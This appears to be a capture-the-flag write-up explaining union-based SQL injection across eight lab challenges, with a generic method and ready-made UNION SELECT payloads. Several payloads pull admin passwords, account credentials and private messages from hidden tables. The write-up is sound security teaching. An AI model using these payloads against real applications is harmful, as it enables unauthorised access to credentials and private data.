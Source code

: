 
# User Exploitation Report

Each challenge accepts a single search input that ends up in a query similar to:
```sql
SELECT col1, col2, ... FROM table WHERE name LIKE '%<input>%'
```
Because the input is concatenated without sanitization, you can close the string and use `UNION SELECT` to pull data from hidden tables that contain the flag.

## Generic Steps (works across challenges)
1. **Find column count**  
   Use `ORDER BY` or UNION with `NULL`s to discover how many columns are selected, e.g.  
   `%' UNION SELECT NULL, NULL, NULL -- -`
2. **Find displayable columns**  
   Replace some `NULL`s with text to see which columns render on the page.  
3. **Extract flag**  
   Once you know the column count and at least one text-capable column, target the hidden table.

### Example – Challenge 1 (Employee Directory)
Base query:
```sql
SELECT id, name, position, email FROM employees WHERE name LIKE '%nidhi%'
```
Thus there are **4 columns**. A working UNION could be:
```
%' UNION SELECT 1, flag, 'x', 'y' FROM secrets -- -
```
The `flag` value shows up in the results list.

### Example – Challenge 2 (E‑Commerce)
Base query selects 3 columns (`id, name, price`). A working UNION could be:
```
%' UNION SELECT 1, username, 0 FROM users -- -
```
Then pivot to the admin row to read the flag in `password` or change the column to `password`:
```
%' UNION SELECT 1, password, 0 FROM users WHERE username='admin' -- -
```

### Example – Challenge 3 (Student Portal)
```
%' UNION SELECT 1, secret, 'x' FROM admin_notes -- -
```

### Example – Challenge 4 (Bank)
```
%' UNION SELECT 1, username, 0, 'x' FROM accounts -- -
%' UNION SELECT 1, password, 0, 'x' FROM accounts WHERE username='admin' -- -
```

### Example – Challenge 5 (Flights)
```
%' UNION SELECT 1, route, 0 FROM hidden_routes -- -
```

### Example – Challenge 6 (Tickets)
```
%' UNION SELECT 1, note, 'x' FROM internal_notes -- -
```

### Example – Challenge 7 (Movies)
```
%' UNION SELECT 1, flag, 0 FROM hidden_flags -- -
```

### Example – Challenge 8 (Forum)
```
%' UNION SELECT 1, sender, message FROM private_messages -- -
%' UNION SELECT 1, 'FLAG', message FROM private_messages WHERE sender='admin' -- -
```

**Recognition**: The use of `UNION SELECT` to pull data from unrelated tables, and the need to match column counts and types, identifies this as **Union-based SQL Injection**.
